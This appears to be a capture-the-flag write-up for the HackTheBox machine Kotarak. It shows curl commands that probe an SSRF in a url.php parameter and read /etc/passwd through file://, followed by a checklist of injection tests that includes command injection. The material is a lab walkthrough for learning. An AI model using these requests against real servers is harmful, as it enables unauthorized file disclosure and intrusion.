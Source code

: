 The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/Kotarak/Screenshots/ping.png)

- Webserver default Admin Login panels?
	- Default passwords?

10.129.1.117:8080/manager/html - Admin login portal
![](htmllogin.png)

- Strange/Custom ports?
	- What do common extractions with CLI tools suggest about this ports use? -  `curl`, `telnet`, `nc`


![](urlparam.png)

Ippsec approach mixed with mine 
```bash
python3 -m http.server 8888
curl -X GET 'http://10.129.1.117:60000/url.php?path=http://10.10.14.29:8888/hellothere'
```

![1080](widescreenpocssrf.png)

Local File inclusion with `file://`
```bash
curl -X GET 'http://10.129.1.117:60000/url.php?path=file:///etc/passwd'
# Check no where it errors out
curl -X GET 'http://10.129.1.117:60000/url.php?path=file'
curl -X GET 'http://10.129.1.117:60000/url.php?path=fil'
```
Ippsec and I are told to try harder.
![](tryharderippsec.png)

A brief segway as learning the power of phpfilters was like:
<iframe width="560" height="315" src="https://www.youtube.com/embed/R2Iih-Ch57w" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>
[Unfortunately I am not even close to this even among other humans...](https://www.youtube.com/watch?v=NPGUIpv-JxI) from my notes it discusses `include` and the design of the site probably is not looking to `include` the internet. 

Parameter equals:
![](fieldtotheparam.png)

- What data returns from the testing the parameter
	- LFI? Can you read disk/memory?
	- RFI? Can you get remote resources? - Internal && External
	- SSRF? Can you request known resources - ports, files, webpages?
	- XSS? Can you execute javascript scripting?
	- SSTI? Can you exploit the template engines access to system?
	- (no)SQLI? Can you create error code enough to PoC interaction with database?  
	- CMDi? Can you execute with `& CMD` - windows  or `; CMD` - linux?
	- IDOR? Can you deserialize or decoded data; or modify data to change your object context?  
